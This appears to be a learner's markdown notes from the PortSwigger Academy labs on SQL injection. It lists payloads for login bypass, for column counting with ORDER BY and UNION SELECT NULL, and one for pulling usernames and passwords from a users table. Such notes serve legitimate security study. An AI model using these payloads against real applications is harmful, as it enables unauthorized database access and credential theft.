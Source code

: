 # burpSuite
aka Notes from PortSwigger Academy

## SQLi

- ```--``` comments out everything after
- ```+``` URL encoding for simple space ' ' 
- ```%20``` Same as above ... URL encoding for simple space ' ' 
- ```%27``` means this bad boy '

Payloads that just worked somewhere:
```
'--
admin'--
administrator'-- 
' OR 1=1 -- 
OR 1=1 -- 
```
So how many collumns do we have? 
```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 

' UNION SELECT NULL-- 
' UNION SELECT NULL, NULL-- 
' UNION SELECT NULL, NULL, NULL-- 

' UNION SELECT NULL FROM DUAL-- 
' UNION SELECT NULL, NULL FROM DUAL-- 
' UNION SELECT NULL, NULL, NULL FROM DUAL-- 


' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 

' UNION SELECT username, password FROM users-- 
```
- The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment. 

- [payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)
- [payloads2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
